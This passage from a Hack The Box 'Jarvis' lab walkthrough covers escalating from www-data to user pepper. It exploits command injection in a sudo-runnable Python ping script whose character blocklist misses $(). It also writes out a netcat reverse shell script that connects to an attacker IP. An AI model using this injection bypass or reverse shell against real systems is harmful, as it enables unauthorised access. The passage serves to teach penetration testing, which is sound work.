 ![](/assets/images/htb-writeup-jarvis/met2.png)

![](/assets/images/htb-writeup-jarvis/met3.png)

### Escalating to user pepper

`/var/www/Admin-Utilities` contains a `simpler.py` script that can be executed as user `pepper` through sudo:

```
www-data@jarvis:~/Admin-Utilities$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

The ping function contains a command injection vulnerability. Because it uses the `os.system` function to execute the ping, we can pass additional parameters to execute commands.

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

There's a list of forbidden commands so we can't simply use the semi-colon or ampersand characters to inject commands but the `$()` characters are not filtered.

I've created a small script that's execute a netcat reverse shell into `/dev/shm/shell.sh`:

```sh
#!/bin/sh
nc -e /bin/bash 10.10.14.5 5555
```
